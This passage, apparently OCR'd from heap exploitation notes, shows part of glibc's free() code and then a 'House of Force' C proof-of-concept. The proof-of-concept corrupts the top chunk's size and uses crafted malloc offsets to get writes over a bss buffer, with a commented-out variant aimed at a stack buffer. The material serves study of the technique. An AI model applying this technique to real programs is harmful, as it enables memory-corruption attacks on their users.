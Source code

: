```cpp

  p = mem2chunk(mem);

#if HAVE_MMAP
  if (chunk_is_mmapped(p))                       /* release mmapped memory. */
  {
    munmap_chunk(p);
    return;
  }
#endif

  ar_ptr = arena_for_chunk(p);
#if THREAD_STATS
  if(!mutex_trylock(&ar_ptr->mutex))
    ++(ar_ptr->stat_lock_direct);
  else {
    (void)mutex_lock(&ar_ptr->mutex);
    ++(ar_ptr->stat_lock_wait);
  }
#else
  (void)mutex_lock(&ar_ptr->mutex);
#endif
  _int_free(ar_ptr, mem);
  (void)mutex_unlock(&ar_ptr->mutex);
}
```

## House of Force

Modify top chunk to control buffer.

([X86 EXPLOITATION 101: “HOUSE OF FORCE” – JEDI OVERFLOW](https://gbmaster.wordpress.com/2015/06/28/x86-exploitation-101-house-of-force-jedi-overflow/))

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

#define offset1 0x601080 - 0x10 - 0x602020 - 0x10
#define offset2 0x7fffffffdf10 - 0x10 - 0x6014f0 - 0x10

char buf1[50] = "Original Buffer (bss).";

int main() {
    void *p, *q;
    char buf2[50] = "Original Buffer (stack).";
    p = malloc(0x18);
    *(uint64_t *)((uint64_t)p + 0x18) = -1; // Set top chunk's size = 0xffffffffffffffff
    malloc(offset1);
    q = malloc(0x48);
    puts(buf1);
    memset(q, 'X', strlen(buf1));
    puts(buf1);

    /*
    p = malloc(0x18);
    *(uint64_t *)((uint64_t)p + 0x18) = -1; // Set top chunk's size = 0xffffffffffffffff
    malloc(offset2);
    q = malloc(0x48);
    puts(buf2);
    memset(q, 'Y', strlen(buf2));
    puts(buf2);
```